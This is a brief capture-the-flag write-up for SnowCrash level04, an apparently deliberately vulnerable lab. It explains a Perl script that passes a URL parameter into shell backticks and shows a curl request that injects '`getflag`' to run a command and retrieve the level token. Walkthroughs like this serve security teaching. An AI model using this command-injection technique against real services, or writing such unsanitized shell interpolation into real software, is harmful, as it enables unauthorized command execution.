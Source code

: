 Here we have a perl script that listen to localhost:4747 and echo the `x` parameter.

The most important statement in this script is the following:

```perl
print `echo $y 2>&1`;
```

It just print the value of `$y` (which is the `x` param) without any check.

So I decide to use the `backticks` around the `x` param.
This will allow me to execute a command before printing it.

I send the following:

```bash
level04@SnowCrash:~$ curl localhost:4747/level04.pl?x='`getflag`'
```

And I receive this as output:

```bash
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
